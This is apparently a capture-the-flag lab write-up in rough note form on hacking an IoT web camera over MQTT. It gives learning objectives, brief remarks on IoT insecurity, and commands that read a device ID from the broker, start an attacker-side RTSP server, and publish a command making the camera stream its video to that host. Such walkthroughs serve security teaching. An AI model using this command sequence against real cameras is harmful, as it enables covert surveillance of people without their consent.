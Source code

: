 ## Day 21
Title
IoT Web Camera v.1.6
IP Address
10.10.42.220 
IOT Camera Hacking
MQTT (Message Queuing Telemetry Transport)

### Learning Objectives
```
Explain the Internet of Things, why it is important, and if we should be concerned about their danger.
Understand the difference between an IoT-specific protocol and other network service protocols.
Understand what a publish/subscribe model is and how it interacts with IoT devices.
Analyze and exploit the behavior of a vulnerable IoT device.
```

 ###  Reasons exist to study IoT
 * IoT categorizes unique devies, lightweight meaning functionality and features are limited to only essentials. Modern Features may be left overlooked(most concerned sec)
 * Interconnected and no human interaction. Negotiate a secure means of communication is not required, e.g. using password.
 * If device A is using X protocol, device D is using Y protocol, presents significant problem in compatibility. Falling it to insecure communication.

```
 └─# mosquitto_sub -h 10.10.42.220 -t device/init                      
E6QTQ8O9P9L8TJVXR4PT
E6QTQ8O9P9L8TJVXR4PT
E6QTQ8O9P9L8TJVXR4PT
^C                                                                                        ``` 



──(root㉿kali)-[~]
└─# docker run --rm -it --network=host aler9/rtsp-simple-server
Unable to find image 'aler9/rtsp-simple-server:latest' locally

latest: Pulling from aler9/rtsp-simple-server
d7c47958dda1: Pull complete 
Digest: sha256:44ce06f758a74f316ae4d912706c5212af2fb4765137e119ff689c5ec327dc94
Status: Downloaded newer image for aler9/rtsp-simple-server:latest



mosquitto_pub -h <Rip> -t device/E6QTQ8O9P9L8TJVXR4PT/cmd -m """{"cmd":"10", "url":"rtsp://<Lip>:8554/"}"""




vlc rtsp://127.0.0.1:8554/path

